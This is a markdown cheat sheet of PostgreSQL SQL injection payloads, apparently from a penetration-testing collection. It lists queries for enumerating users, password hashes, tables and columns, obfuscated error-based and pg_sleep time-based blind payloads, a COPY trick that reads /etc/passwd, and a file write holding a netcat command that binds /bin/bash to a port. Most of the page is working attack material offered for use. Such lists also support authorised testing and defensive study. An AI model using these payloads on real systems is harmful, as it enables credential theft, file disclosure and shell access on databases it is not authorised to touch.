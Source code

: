 # POSTGRESQL

## PostgreSQL Comments

```sql
--
/**/  
```

## PostgreSQL Functions

```sql
version()
current_database()
chr(65)
ascii(‘A’)
SELECT 'A'||'B'='AB'
```

## Postgresql queries

```sql
SELECT usename FROM pg_user; -- Usernames
-- SELECT usename, passwd FROM pg_shadow; -- Usernames & passwords, access could be forviden
SELECT usename, usecreatedb, usesuper, usesysid, passwd FROM pg_user; -- Permisions
SELECT datname FROM pg_database; -- databases
```

## PostgreSQLi Flow
```sql
-- List Tables
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN ('r','') AND n.nspname NOT IN ('pg_catalog', 'pg_toast') AND pg_catalog.pg_table_is_visible(c.oid)

-- List Columns
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public')

-- List table from columns
SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public') AND attname LIKE '%<COLUMN_NAME>%';
```

**MySQL like**
```sql
SELECT table_name FROM information_schema.tables limit 1 offset X;
SELECT column_name FROM information_schema.columns WHERE table_name='<TABLE_NAME>';-- Use single quotes

sEleCt string_agg(table_name,',') fRoM information_schema.tables;-- Instead of group_concat()
```

## PostgreSQL Error Based - Basic

```sql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name=data_column+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

(select array_to_string(array(select table_name::text from information_schema.tables where table_schema not in ($$information_schema$$,$$pg_catalog$$)),$$:$$)::int)
(select array_to_string(array(select column_name::text from information_schema.columns where table_name=$$<TABLE_NAME>$$),$$:$$)::int)
```

## PostgreSQL Time Based

```sql
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL File Read

```sql
select pg_read_file('PG_VERSION', 0, 200);
```

```sql
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

## PostgreSQL File Write

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

## Thanks to

* [A Penetration Tester’s Guide to PostgreSQL - David Hayter](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
* [Postgres SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
